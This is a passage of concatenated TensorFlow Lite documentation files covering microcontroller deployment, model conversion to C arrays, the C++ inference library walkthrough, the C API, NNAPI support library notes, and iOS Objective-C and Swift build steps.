[Arm Cortex-M Series](https://developer.arm.com/ip-products/processors/cortex-m)
architecture, and has been ported to other architectures including
[ESP32](https://www.espressif.com/en/products/hardware/esp32/overview). The
framework is available as an Arduino library. It can also generate projects for
development environments such as Mbed. It is open source and can be included in
any C++ 11 project.

The following development boards are supported:

*   [Arduino Nano 33 BLE Sense](https://store.arduino.cc/usa/nano-33-ble-sense-with-headers)
*   [SparkFun Edge](https://www.sparkfun.com/products/15170)
*   [STM32F746 Discovery kit](https://www.st.com/en/evaluation-tools/32f746gdiscovery.html)
*   [Adafruit EdgeBadge](https://www.adafruit.com/product/4400)
*   [Adafruit TensorFlow Lite for Microcontrollers Kit](https://www.adafruit.com/product/4317)
*   [Adafruit Circuit Playground Bluefruit](https://learn.adafruit.com/tensorflow-lite-for-circuit-playground-bluefruit-quickstart?view=all)
*   [Espressif ESP32-DevKitC](https://www.espressif.com/en/products/hardware/esp32-devkitc/overview)
*   [Espressif ESP-EYE](https://www.espressif.com/en/products/hardware/esp-eye/overview)
*   [Wio Terminal: ATSAMD51](https://www.seeedstudio.com/Wio-Terminal-p-4509.html)
*   [Himax WE-I Plus EVB Endpoint AI Development Board](https://www.sparkfun.com/products/17256)
*   [Synopsys DesignWare ARC EM Software Development Platform](https://www.synopsys.com/dw/ipdir.php?ds=arc-em-software-development-platform)
*   [Sony Spresense](https://developer.sony.com/develop/spresense/)

## Explore the examples

Each example application is on
[Github](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples)
and has a `README.md` file that explains how it can be deployed to its supported
platforms. Some examples also have end-to-end tutorials using a specific
platform, as given below:

*   [Hello World](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples/hello_world) -
    Demonstrates the absolute basics of using TensorFlow Lite for
    Microcontrollers
    *   [Tutorial using any supported device](get_started_low_level.md)
*   [Micro speech](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples/micro_speech) -
    Captures audio with a microphone to detect the words "yes" and "no"
    *   [Tutorial using SparkFun Edge](https://codelabs.developers.google.com/codelabs/sparkfun-tensorflow/#0)
*   [Magic wand](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples/magic_wand) -
    Captures accelerometer data to classify three different physical gestures
    *   [Tutorial using Arduino Nano 33 BLE Sense](https://codelabs.developers.google.com/codelabs/ai-magicwand/#0)
*   [Person detection](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples/person_detection) -
    Captures camera data with an image sensor to detect the presence or absence
    of a person

## Workflow

The following steps are required to deploy and run a TensorFlow model on a
microcontroller:

1.  **Train a model**:
    *   *Generate a small TensorFlow model* that can fit your target device and
        contains [supported operations](build_convert.md#operation-support).
    *   *Convert to a TensorFlow Lite model* using the
        [TensorFlow Lite converter](build_convert.md#model-conversion).
    *   *Convert to a C byte array* using
        [standard tools](build_convert.md#convert-to-a-c-array) to store it in a
        read-only program memory on device.
2.  **Run inference** on device using the [C++ library](library.md) and process
    the results.

## Limitations

TensorFlow Lite for Microcontrollers is designed for the specific constraints of
microcontroller development. If you are working on more powerful devices (for
example, an embedded Linux device like the Raspberry Pi), the standard
TensorFlow Lite framework might be easier to integrate.

The following limitations should be considered:

*   Support for a [limited subset](build_convert.md#operation-support) of
    TensorFlow operations
*   Support for a limited set of devices
*   Low-level C++ API requiring manual memory management
*   On device training is not supported

## Next steps

*   [Get started with microcontrollers](get_started_low_level.md) to try the
    example application and learn how to use the API.
*   [Understand the C++ library](library.md) to learn how to use the library in
    your own project.
*   [Build and convert models](build_convert.md) to learn more about training
    and converting models for deployment on microcontrollers.
# Build and convert models

Microcontrollers have limited RAM and storage, which places constraints on the
sizes of machine learning models. In addition, TensorFlow Lite for
Microcontrollers currently supports a limited subset of operations, so not all
model architectures are possible.

This document explains the process of converting a TensorFlow model to run on
microcontrollers. It also outlines the supported operations and gives some
guidance on designing and training a model to fit in limited memory.

For an end-to-end, runnable example of building and converting a model, see the
following Colab which is part of the *Hello World* example:

<a class="button button-primary" href="https://colab.research.google.com/github/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples/hello_world/train/train_hello_world_model.ipynb">train_hello_world_model.ipynb</a>

## Model conversion

To convert a trained TensorFlow model to run on microcontrollers, you should use
the
[TensorFlow Lite converter Python API](https://www.tensorflow.org/lite/convert/).
This will convert the model into a
[`FlatBuffer`](https://google.github.io/flatbuffers/), reducing the model size,
and modify it to use TensorFlow Lite operations.

To obtain the smallest possible model size, you should consider using
[post-training quantization](https://www.tensorflow.org/lite/performance/post_training_quantization).

### Convert to a C array

Many microcontroller platforms do not have native filesystem support. The
easiest way to use a model from your program is to include it as a C array and
compile it into your program.

The following unix command will generate a C source file that contains the
TensorFlow Lite model as a `char` array:

```bash
xxd -i converted_model.tflite > model_data.cc
```

The output will look similar to the following:

```c
unsigned char converted_model_tflite[] = {
  0x18, 0x00, 0x00, 0x00, 0x54, 0x46, 0x4c, 0x33, 0x00, 0x00, 0x0e, 0x00,
  // <Lines omitted>
};
unsigned int converted_model_tflite_len = 18200;
```

Once you have generated the file, you can include it in your program. It is
important to change the array declaration to `const` for better memory
efficiency on embedded platforms.

For an example of how to include and use a model in your program, see
[`model.cc`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples/hello_world/model.cc)
in the *Hello World* example.

## Model architecture and training

When designing a model for use on microcontrollers, it is important to consider
the model size, workload, and the operations that are used.

### Model size

A model must be small enough to fit within your target device's memory alongside
the rest of your program, both as a binary and at runtime.

To create a smaller model, you can use fewer and smaller layers in your
architecture. However, small models are more likely to suffer from underfitting.
This means for many problems, it makes sense to try and use the largest model
that will fit in memory. However, using larger models will also lead to
increased processor workload.

Note: The core runtime for TensorFlow Lite for Microcontrollers fits in 16KB on
a Cortex M3.

### Workload

The size and complexity of the model has an impact on workload. Large, complex
models might result in a higher duty cycle, which means your device's processor
is spending more time working and less time idle. This will increase power
consumption and heat output, which might be an issue depending on your
application.

### Operation support

TensorFlow Lite for Microcontrollers currently supports a limited subset of
TensorFlow operations, which impacts the model architectures that it is possible
to run. We are working on expanding operation support, both in terms of
reference implementations and optimizations for specific architectures.

The supported operations can be seen in the file
[`all_ops_resolver.cc`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/all_ops_resolver.cc)
# Understand the C++ library

The TensorFlow Lite for Microcontrollers C++ library is part of the
[TensorFlow repository](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro).
It is designed to be readable, easy to modify, well-tested, easy to integrate,
and compatible with regular TensorFlow Lite.

The following document outlines the basic structure of the C++ library and
provides information about creating your own project.

## File structure

The
[`micro`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro)
root directory has a relatively simple structure. However, since it is located
inside of the extensive TensorFlow repository, we have created scripts and
pre-generated project files that provide the relevant source files in isolation
within various embedded development environments.

### Key files

The most important files for using the TensorFlow Lite for Microcontrollers
interpreter are located in the root of the project, accompanied by tests:

-   [`all_ops_resolver.h`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/all_ops_resolver.h)
    or
    [`micro_mutable_op_resolver.h`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/micro_mutable_op_resolver.h)
    can be used to provide the operations used by the interpreter to run the
    model. Since `all_ops_resolver.h` pulls in every available operation, it
    uses a lot of memory. In production applications, you should use
    `micro_mutable_op_resolver.h` to pull in only the operations your model
    needs.
-   [`micro_error_reporter.h`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/micro_error_reporter.h)
    outputs debug information.
-   [`micro_interpreter.h`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/micro_interpreter.h)
    contains code to handle and run models.

See [Get started with microcontrollers](get_started_low_level.md) for a
walkthrough of typical usage.

The build system provides for platform-specific implementations of certain
files. These are located in a directory with the platform name, for example
[`sparkfun_edge`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/sparkfun_edge).

Several other directories exist, including:

-   [`kernel`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/kernels),
    which contains operation implementations and the associated code.
-   [`tools`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/tools),
    which contains build tools and their output.
-   [`examples`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples),
    which contains sample code.

## Start a new project

We recommend using the *Hello World* example as a template for new projects. You
can obtain a version of it for your platform of choice by following the
instructions in this section.

### Use the Arduino library

If you are using Arduino, the *Hello World* example is included in the
`Arduino_TensorFlowLite` Arduino library, which you can download from the
Arduino IDE and in [Arduino Create](https://create.arduino.cc/).

Once the library has been added, go to `File -> Examples`. You should see an
example near the bottom of the list named `TensorFlowLite:hello_world`. Select
it and click `hello_world` to load the example. You can then save a copy of the
example and use it as the basis of your own project.

### Generate projects for other platforms

TensorFlow Lite for Microcontrollers is able to generate standalone projects
that contain all of the necessary source files, using a `Makefile`. The current
supported environments are Keil, Make, and Mbed.

To generate these projects with Make, clone the
[TensorFlow repository](http://github.com/tensorflow/tensorflow) and run the
following command:

```bash
make -f tensorflow/lite/micro/tools/make/Makefile generate_projects
```

This will take a few minutes, since it has to download some large toolchains for
the dependencies. Once it has finished, you should see some folders created
inside a path like `tensorflow/lite/micro/tools/make/gen/linux_x86_64/prj/` (the
exact path depends on your host operating system). These folders contain the
generated project and source files.

After running the command, you'll be able to find the *Hello World* projects in
`tensorflow/lite/micro/tools/make/gen/linux_x86_64/prj/hello_world`. For
example, `hello_world/keil` will contain the Keil project.

## Run the tests

To build the library and run all of its unit tests, use the following command:

```bash
make -f tensorflow/lite/micro/tools/make/Makefile test
```

To run an individual test, use the following command, replacing `<test_name>`
with the name of the test:

```bash
make -f tensorflow/lite/micro/tools/make/Makefile test_<test_name>
```

You can find the test names in the project's Makefiles. For example,
`examples/hello_world/Makefile.inc` specifies the test names for the *Hello
World* example.

## Build binaries

To build a runnable binary for a given project (such as an example application),
use the following command, replacing `<project_name>` with the project you wish
to build:

```bash
make -f tensorflow/lite/micro/tools/make/Makefile <project_name>_bin
```

For example, the following command will build a binary for the *Hello World*
application:

```bash
make -f tensorflow/lite/micro/tools/make/Makefile hello_world_bin
```

By default, the project will be compiled for the host operating system. To
specify a different target architecture, use `TARGET=`. The following example
shows how to build the *Hello World* example for the SparkFun Edge:

```bash
make -f tensorflow/lite/micro/tools/make/Makefile TARGET=sparkfun_edge hello_world_bin
```

When a target is specified, any available target-specific source files will be
used in place of the original code. For example, the subdirectory
`examples/hello_world/sparkfun_edge` contains SparkFun Edge implementations of
the files `constants.cc` and `output_handler.cc`, which will be used when the
target `sparkfun_edge` is specified.

You can find the project names in the project's Makefiles. For example,
`examples/hello_world/Makefile.inc` specifies the binary names for the *Hello
World* example.

## Optimized kernels

The reference kernels in the root of `tensorflow/lite/micro/kernels` are
implemented in pure C/C++, and do not include platform-specific hardware
optimizations.

Optimized versions of kernels are provided in subdirectories. For example,
`kernels/cmsis-nn` contains several optimized kernels that make use of Arm's
CMSIS-NN library.

To generate projects using optimized kernels, use the following command,
replacing `<subdirectory_name>` with the name of the subdirectory containing the
optimizations:

```bash
make -f tensorflow/lite/micro/tools/make/Makefile TAGS=<subdirectory_name> generate_projects
```

You can add your own optimizations by creating a new subfolder for them. We
encourage pull requests for new optimized implementations.

## Generate the Arduino library

A nightly build of the Arduino library is available via the Arduino IDE's
library manager.

If you need to generate a new build of the library, you can run the following
script from the TensorFlow repository:

```bash
./tensorflow/lite/micro/tools/ci_build/test_arduino.sh
```

The resulting library can be found in
`tensorflow/lite/micro/tools/make/gen/arduino_x86_64/prj/tensorflow_lite.zip`.

## Port to new devices

Guidance on porting TensorFlow Lite for Microcontrollers to new platforms and
devices can be found in
[`micro/README.md`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/README.md).
# Get started with microcontrollers

This document explains how to train a model and run inference using a
microcontroller.

## The Hello World example

The
[Hello World](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/examples/hello_world)
example is designed to demonstrate the absolute basics of using TensorFlow Lite
for Microcontrollers. We train and run a model that replicates a sine function,
i.e, it takes a single number as its input, and outputs the number's
[sine](https://en.wikipedia.org/wiki/Sine) value. When deployed to the
microcontroller, its predictions are used to either blink LEDs or control an
animation.

The end-to-end workflow involves the following steps:

1.  [Train a model](#train_a_model) (in Python): A jupyter notebook to train,
    convert and optimize a model for on-device use.
2.  [Run inference](#run_inference) (in C++ 11): An end-to-end unit test that
    runs inference on the model using the [C++ library](library.md).

## Get a supported device

The example application we'll be using has been tested on the following devices:

*   [Arduino Nano 33 BLE Sense](https://store.arduino.cc/usa/nano-33-ble-sense-with-headers)
    (using Arduino IDE)
*   [SparkFun Edge](https://www.sparkfun.com/products/15170) (building directly
    from source)
*   [STM32F746 Discovery kit](https://www.st.com/en/evaluation-tools/32f746gdiscovery.html)
    (using Mbed)
*   [Adafruit EdgeBadge](https://www.adafruit.com/product/4400) (using Arduino
    IDE)
*   [Adafruit TensorFlow Lite for Microcontrollers Kit](https://www.adafruit.com/product/4317)
    (using Arduino IDE)
*   [Adafruit Circuit Playground Bluefruit](https://learn.adafruit.com/tensorflow-lite-for-circuit-playground-bluefruit-quickstart?view=all)
    (using Arduino IDE)
*   [Espressif ESP32-DevKitC](https://www.espressif.com/en/products/hardware/esp32-devkitc/overview)
    (using ESP IDF)
*   [Espressif ESP-EYE](https://www.espressif.com/en/products/hardware/esp-eye/overview)
    (using ESP IDF)

Learn more about supported platforms in
[TensorFlow Lite for Microcontrollers](index.md).

## Train a model

Note: You can skip this section and use the trained model included in the
example code.

Use Google Colaboratory to
[train your own model](https://colab.research.google.com/github/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples/hello_world/train/train_hello_world_model.ipynb).
For more details, refer to the `README.md`:

<a class="button button-primary" href="https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/examples/hello_world/train/README.md">Hello
World Training README.md</a>

## Run inference

To run the model on your device, we will walk through the instructions in the
`README.md`:

<a class="button button-primary" href="https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/examples/hello_world/README.md">Hello
World README.md</a>

The following sections walk through the example's
[`hello_world_test.cc`](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/examples/hello_world/hello_world_test.cc),
unit test which demonstrates how to run inference using TensorFlow Lite for
Microcontrollers. It loads the model and runs inference several times.

### 1. Include the library headers

To use the TensorFlow Lite for Microcontrollers library, we must include the
following header files:

```C++
#include "tensorflow/lite/micro/all_ops_resolver.h"
#include "tensorflow/lite/micro/micro_error_reporter.h"
#include "tensorflow/lite/micro/micro_interpreter.h"
#include "tensorflow/lite/schema/schema_generated.h"
#include "tensorflow/lite/version.h"
```

-   [`all_ops_resolver.h`](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/all_ops_resolver.h)
    provides the operations used by the interpreter to run the model.
-   [`micro_error_reporter.h`](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/micro_error_reporter.h)
    outputs debug information.
-   [`micro_interpreter.h`](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/micro_interpreter.h)
    contains code to load and run models.
-   [`schema_generated.h`](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/schema/schema_generated.h)
    contains the schema for the TensorFlow Lite
    [`FlatBuffer`](https://google.github.io/flatbuffers/) model file format.
-   [`version.h`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/version.h)
    provides versioning information for the TensorFlow Lite schema.

### 2. Include the model header

The TensorFlow Lite for Microcontrollers interpreter expects the model to be
provided as a C++ array. The model is defined in `model.h` and `model.cc` files.
The header is included with the following line:

```C++
#include "tensorflow/lite/micro/examples/hello_world/model.h"
```

### 3. Include the unit test framework header

In order to create a unit test, we include the TensorFlow Lite for
Microcontrollers unit test framework by including the following line:

```C++
#include "tensorflow/lite/micro/testing/micro_test.h"
```

The test is defined using the following macros:

```C++
TF_LITE_MICRO_TESTS_BEGIN

TF_LITE_MICRO_TEST(LoadModelAndPerformInference) {
  . // add code here
  .
}

TF_LITE_MICRO_TESTS_END
```

We now discuss the code included in the macro above.

### 4. Set up logging

To set up logging, a `tflite::ErrorReporter` pointer is created using a pointer
to a `tflite::MicroErrorReporter` instance:

```C++
tflite::MicroErrorReporter micro_error_reporter;
tflite::ErrorReporter* error_reporter = &micro_error_reporter;
```

This variable will be passed into the interpreter, which allows it to write
logs. Since microcontrollers often have a variety of mechanisms for logging, the
implementation of `tflite::MicroErrorReporter` is designed to be customized for
your particular device.

### 5. Load a model

In the following code, the model is instantiated using data from a `char` array,
`g_model`, which is declared in `model.h`. We then check the model to ensure its
schema version is compatible with the version we are using:

```C++
const tflite::Model* model = ::tflite::GetModel(g_model);
if (model->version() != TFLITE_SCHEMA_VERSION) {
  TF_LITE_REPORT_ERROR(error_reporter,
      "Model provided is schema version %d not equal "
      "to supported version %d.\n",
      model->version(), TFLITE_SCHEMA_VERSION);
}
```

### 6. Instantiate operations resolver

An
[`AllOpsResolver`](github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/all_ops_resolver.h)
instance is declared. This will be used by the interpreter to access the
operations that are used by the model:

```C++
tflite::AllOpsResolver resolver;
```

The `AllOpsResolver` loads all of the operations available in TensorFlow Lite
for Microcontrollers, which uses a lot of memory. Since a given model will only
use a subset of these operations, it's recommended that real world applications
load only the operations that are needed.

This is done using a different class, `MicroMutableOpResolver`. You can see how
to use it in the *Micro speech* example's
[`micro_speech_test.cc`](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/micro/examples/micro_speech/micro_speech_test.cc).

### 7. Allocate memory

We need to preallocate a certain amount of memory for input, output, and
intermediate arrays. This is provided as a `uint8_t` array of size
`tensor_arena_size`:

```C++
const int tensor_arena_size = 2 * 1024;
uint8_t tensor_arena[tensor_arena_size];
```

The size required will depend on the model you are using, and may need to be
determined by experimentation.

### 8. Instantiate interpreter

We create a `tflite::MicroInterpreter` instance, passing in the variables
created earlier:

```C++
tflite::MicroInterpreter interpreter(model, resolver, tensor_arena,
                                     tensor_arena_size, error_reporter);
```

### 9. Allocate tensors

We tell the interpreter to allocate memory from the `tensor_arena` for the
model's tensors:

```C++
interpreter.AllocateTensors();
```

### 10. Validate input shape

The `MicroInterpreter` instance can provide us with a pointer to the model's
input tensor by calling `.input(0)`, where `0` represents the first (and only)
input tensor:

```C++
  // Obtain a pointer to the model's input tensor
  TfLiteTensor* input = interpreter.input(0);
```

We then inspect this tensor to confirm that its shape and type are what we are
expecting:

```C++
// Make sure the input has the properties we expect
TF_LITE_MICRO_EXPECT_NE(nullptr, input);
// The property "dims" tells us the tensor's shape. It has one element for
// each dimension. Our input is a 2D tensor containing 1 element, so "dims"
// should have size 2.
TF_LITE_MICRO_EXPECT_EQ(2, input->dims->size);
// The value of each element gives the length of the corresponding tensor.
// We should expect two single element tensors (one is contained within the
// other).
TF_LITE_MICRO_EXPECT_EQ(1, input->dims->data[0]);
TF_LITE_MICRO_EXPECT_EQ(1, input->dims->data[1]);
// The input is a 32 bit floating point value
TF_LITE_MICRO_EXPECT_EQ(kTfLiteFloat32, input->type);
```

The enum value `kTfLiteFloat32` is a reference to one of the TensorFlow Lite
data types, and is defined in
[`common.h`](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/c/common.h).

### 11. Provide an input value

To provide an input to the model, we set the contents of the input tensor, as
follows:

```C++
input->data.f[0] = 0.;
```

In this case, we input a floating point value representing `0`.

### 12. Run the model

To run the model, we can call `Invoke()` on our `tflite::MicroInterpreter`
instance:

```C++
TfLiteStatus invoke_status = interpreter.Invoke();
if (invoke_status != kTfLiteOk) {
  TF_LITE_REPORT_ERROR(error_reporter, "Invoke failed\n");
}
```

We can check the return value, a `TfLiteStatus`, to determine if the run was
successful. The possible values of `TfLiteStatus`, defined in
[`common.h`](https://github.com/tensorflow/tflite-micro/tree/main/tensorflow/lite/c/common.h),
are `kTfLiteOk` and `kTfLiteError`.

The following code asserts that the value is `kTfLiteOk`, meaning inference was
successfully run.

```C++
TF_LITE_MICRO_EXPECT_EQ(kTfLiteOk, invoke_status);
```

### 13. Obtain the output

The model's output tensor can be obtained by calling `output(0)` on the
`tflite::MicroInterpreter`, where `0` represents the first (and only) output
tensor.

In the example, the model's output is a single floating point value contained
within a 2D tensor:

```C++
TfLiteTensor* output = interpreter.output(0);
TF_LITE_MICRO_EXPECT_EQ(2, output->dims->size);
TF_LITE_MICRO_EXPECT_EQ(1, input->dims->data[0]);
TF_LITE_MICRO_EXPECT_EQ(1, input->dims->data[1]);
TF_LITE_MICRO_EXPECT_EQ(kTfLiteFloat32, output->type);
```

We can read the value directly from the output tensor and assert that it is what
we expect:

```C++
// Obtain the output value from the tensor
float value = output->data.f[0];
// Check that the output value is within 0.05 of the expected value
TF_LITE_MICRO_EXPECT_NEAR(0., value, 0.05);
```

### 14. Run inference again

The remainder of the code runs inference several more times. In each instance,
we assign a value to the input tensor, invoke the interpreter, and read the
result from the output tensor:

```C++
input->data.f[0] = 1.;
interpreter.Invoke();
value = output->data.f[0];
TF_LITE_MICRO_EXPECT_NEAR(0.841, value, 0.05);

input->data.f[0] = 3.;
interpreter.Invoke();
value = output->data.f[0];
TF_LITE_MICRO_EXPECT_NEAR(0.141, value, 0.05);

input->data.f[0] = 5.;
interpreter.Invoke();
value = output->data.f[0];
TF_LITE_MICRO_EXPECT_NEAR(-0.959, value, 0.05);
```

### 15. Read the application code

Once you have walked through this unit test, you should be able to understand
the example's application code, located in
[`main_functions.cc`](https://github.com/tensorflow/tflite-micro/blob/main/tensorflow/lite/micro/examples/hello_world/main_functions.cc).
It follows a similar process, but generates an input value based on how many
inferences have been run, and calls a device-specific function that displays the
model's output to the user.
# Builtin Ops Header Generator.

This directory contains a code generator to generate a pure C header for
builtin op definition.

Whenever you add a new builtin op, please execute:

```sh
bazel run \
  //tensorflow/lite/schema/builtin_ops_header:generate > \
  tensorflow/lite/builtin_ops.h &&
bazel run \
  //tensorflow/lite/schema/builtin_ops_list:generate > \
  tensorflow/lite/core/shims/builtin_ops_list.inc
```
# Builtin Ops List Generator.

This directory contains a code generator to generate a pure C header for
builtin ops lists.

Whenever you add a new builtin op, please execute:

```sh
bazel run \
  //tensorflow/lite/schema/builtin_ops_header:generate > \
  tensorflow/lite/builtin_ops.h &&
bazel run \
  //tensorflow/lite/schema/builtin_ops_list:generate > \
  tensorflow/lite/core/shims/builtin_ops_list.inc
```
# TensorFlow Lite C API

This directory contains C APIs for TensorFlow Lite. This includes C APIs
for common types, like kernels and delegates, as well as an explicit C API
for inference.

## Header summary

Each public C header contains types and methods for specific uses:

*   `common.h` - Contains common C enums, types and methods used throughout
    TensorFlow Lite. This includes everything from error codes, to the kernel
    and delegate APIs.
*    `builtin_op_data.h` - Contains op-specific data that is used for builtin
     kernels. This should only be used when (re)implementing a builtin operator.
*   `c_api.h` - Contains the TensorFlow Lite C API for inference. The
     functionality here is largely equivalent (though a strict subset of) the
     functionality provided by the C++ `Interpreter` API.
*   `c_api_experimental.h` - Contains experimental C API methods for inference.
     These methods are useful and usable, but aren't yet part of the stable API.

## Using the C API

See the [`c_api.h`](c_api.h) header for API usage details.

## Building the C API

A native shared library target that contains the C API for inference has been
provided. Assuming a working [bazel](https://bazel.build/versions/master/docs/install.html)
configuration, this can be built as follows:

```sh
bazel build -c opt //tensorflow/lite/c:tensorflowlite_c
```

and for Android (replace `android_arm` with `android_arm64` for 64-bit),
assuming you've [configured your project for Android builds](../g3doc/guide/android.md):

```sh
bazel build -c opt --cxxopt=--std=c++11 --config=android_arm \
  //tensorflow/lite/c:tensorflowlite_c
```

The generated shared library will be available in your
`bazel-bin/tensorflow/lite/c` directory. A target which packages the shared
library together with the necessary headers (`c_api.h`, `c_api_experimental.h`
and `common.h`) will be available soon, and will also be released as a prebuilt
archive (together with existing prebuilt packages for Android/iOS).
# Android Neural Network API

The Android Neural Networks API (NNAPI) is an Android C API designed for running
computationally intensive operators for machine learning on mobile devices.
Tensorflow Lite is designed to use the NNAPI to perform hardware-accelerated
inference operators on supported devices.
Based on the app’s requirements and the hardware capabilities on a device, the
NNAPI can distribute the computation workload across available on-device
processors, including dedicated neural network hardware, graphics processing
units (GPUs), and digital signal processors (DSPs).
For devices that lack a specialized vendor driver, the NNAPI runtime relies on
optimized code to execute requests on the CPU. For more information about the
NNAPI, please refer to the [NNAPI documentation](https://developer.android.com/ndk/guides/neuralnetworks/index.html)


# NNAPI Support Library

Files in this directory are a copy of NNAPI Support Library
[files](https://cs.android.com/android/platform/superproject/+/master:packages/modules/NeuralNetworks/shim_and_sl/;drc=629cea610b447266b1e6b01e4cb6a952dcb56e7e)
in AOSP.

The files had to be modified to make them work in TF Lite context. Here is the
list of differences from the AOSP version:

*   `#include` directives use fully-qualified paths.
*   `#pragma once` directives are changed to header guards. Android paths in
    header guards are changed to TF Lite paths.
*   `tensorflow/lite/nnapi/NeuralNetworksTypes.h` is used for definitions of
    NNAPI types instead of
    [`NeuralNetworksTypes.h` from AOSP](https://cs.android.com/android/_/android/platform/packages/modules/NeuralNetworks/+/6f0a05b9abdfe0d17afe0269c5329340809175b5:runtime/include/NeuralNetworksTypes.h;drc=a62e56b26b7382a62c5aa0e5964266eba55853d8).
*   `loadNnApiSupportLibrary(...)` is using `tensorflow/lite/minimal_logging.h`
    for logging on errors.
*   `SupportLibrary.h` declarations are wrapped into `tflite::nnapi` namespace.
*   `__BEGIN_DECLS` and `__END_DECLS` are changed to explicit `extern "C"`
    blocks.
*   Copyright notice is changed to the one used in Tensorflow project.
This directory contains shim header files that forward to the TF Lite
C API and to the key headers of the TF Lite C++ API.

The intent is that the shims in this directory could be modified to optionally
redirect to a different implementation of those APIs (for example,
one built into the underlying operating system platform).

These should be used as follows: #includes from .cc files that are
_implementing_ the shimmed TF Lite APIs should include the regular TF
Lite API headers.  #includes from files that are _using_ the shimmed
APIs should include the shimmed headers.
# TensorFlow Lite for Objective-C

[TensorFlow Lite](https://www.tensorflow.org/lite/) is TensorFlow's lightweight
solution for Objective-C developers. It enables low-latency inference of
on-device machine learning models with a small binary size and fast performance
supporting hardware acceleration.

## Build TensorFlow with iOS support

To build the Objective-C TensorFlow Lite library on Apple platforms,
[install from source](https://www.tensorflow.org/install/source#setup_for_linux_and_macos)
or [clone the GitHub repo](https://github.com/tensorflow/tensorflow).
Then, configure TensorFlow by navigating to the root directory and executing the
`configure.py` script:

```shell
python configure.py
```

Follow the prompts and when asked to build TensorFlow with iOS support, enter `y`.

### CocoaPods developers

Add the TensorFlow Lite pod to your `Podfile`:

```ruby
pod 'TensorFlowLiteObjC'
```

Then, run `pod install`.

In your Objective-C files, import the umbrella header:

```objectivec
#import "TFLTensorFlowLite.h"
```

Or, the module if you set `CLANG_ENABLE_MODULES = YES` in your Xcode project:

```objectivec
@import TFLTensorFlowLite;
```

Note: To import the TensorFlow Lite module in your Objective-C files, you must
also include `use_frameworks!` in your `Podfile`.

### Bazel developers

In your `BUILD` file, add the `TensorFlowLite` dependency to your target:

```python
objc_library(
  deps = [
      "//tensorflow/lite/objc:TensorFlowLite",
  ],
)
```

In your Objective-C files, import the umbrella header:

```objectivec
#import "TFLTensorFlowLite.h"
```

Or, the module if you set `CLANG_ENABLE_MODULES = YES` in your Xcode project:

```objectivec
@import TFLTensorFlowLite;
```

Build the `TensorFlowLite` Objective-C library target:

```shell
bazel build tensorflow/lite/objc:TensorFlowLite
```

Build the `tests` target:

```shell
bazel test tensorflow/lite/objc:tests
```

#### Generate the Xcode project using Tulsi

Open the `//tensorflow/lite/objc/TensorFlowLite.tulsiproj` using
the [TulsiApp](https://github.com/bazelbuild/tulsi)
or by running the
[`generate_xcodeproj.sh`](https://github.com/bazelbuild/tulsi/blob/master/src/tools/generate_xcodeproj.sh)
script from the root `tensorflow` directory:

```shell
generate_xcodeproj.sh --genconfig tensorflow/lite/objc/TensorFlowLite.tulsiproj:TensorFlowLite --outputfolder ~/path/to/generated/TensorFlowLite.xcodeproj
```
# TensorFlow Lite with Select TensorFlow ops

For enabling the Select TensorFlow ops for your TensorFlow Lite app, please add
the `TensorFlowLiteSelectTfOps` pod to your Podfile, in addition to
`TensorFlowLiteSwift` or `TensorFlowLiteObjC` pod, depending on your primary
language.

After that, you should also force load the framework from your project. Add the
following line to the `Other Linker Flags` under your project's Build Settings
page.

```
-force_load "$(PROJECT_DIR)/Pods/TensorFlowLiteSelectTfOps/Frameworks/TensorFlowLiteSelectTfOps.framework/TensorFlowLiteSelectTfOps"
```

Please refer to the [Select operators from TensorFlow][ops-select] guide for
more details.

[ops-select]: https://www.tensorflow.org/lite/guide/ops_select#ios
# TensorFlow Lite for iOS
- For Swift developers, add the `TensorFlowLiteSwift` pod to your Podfile. For
  Objective-C developers, add `TensorFlowLiteObjC`. See the TensorFlow Lite
  [Swift](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/swift)
  and
  [ObjC](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/objc)
  directories for more details.
# TensorFlow Lite for Swift

[TensorFlow Lite](https://www.tensorflow.org/lite/) is TensorFlow's lightweight
solution for Swift developers. It enables low-latency inference of on-device
machine learning models with a small binary size and fast performance supporting
hardware acceleration.

## Build TensorFlow with iOS support

To build the Swift TensorFlow Lite library on Apple platforms,
[install from source](https://www.tensorflow.org/install/source#setup_for_linux_and_macos)
or [clone the GitHub repo](https://github.com/tensorflow/tensorflow).
Then, configure TensorFlow by navigating to the root directory and executing the
`configure.py` script:

```shell
python configure.py
```

